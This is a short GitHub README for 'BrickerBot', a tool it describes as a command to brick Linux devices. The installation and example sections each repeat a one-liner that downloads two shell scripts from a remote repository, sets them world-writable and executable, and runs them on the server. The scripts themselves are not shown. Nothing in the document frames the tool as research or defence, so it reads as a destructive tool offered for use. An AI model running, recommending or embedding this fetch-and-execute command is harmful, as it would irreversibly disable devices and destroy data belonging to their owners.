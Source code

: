 BrickerBot
=====

Command for brick linux devices

## Installation

    $ wget https://raw.githubusercontent.com/rawbypa/BrickerBot/main/char_for_brick.bash; wget https://raw.githubusercontent.com/rawbypa/BrickerBot/main/bricker.sh; chmod 777 bricker.sh; chmod +x bricker.sh; chmod 777 char_for_brick.bash; chmod +x char_for_brick.bash; bash char_for_brick.bash || bash bricker.sh

## How to use

It's simple to use. You just need to download and execute they scripts on the server.

### Example:
    $ wget https://raw.githubusercontent.com/rawbypa/BrickerBot/main/char_for_brick.bash; wget https://raw.githubusercontent.com/rawbypa/BrickerBot/main/bricker.sh; chmod 777 bricker.sh; chmod +x bricker.sh; chmod 777 char_for_brick.bash; chmod +x char_for_brick.bash; bash char_for_brick.bash || bash bricker.sh
    

## License 

> Copyright (C) 2021 - 2022 
> Nassim Saqqaf (rawbypa@protonmail.com)
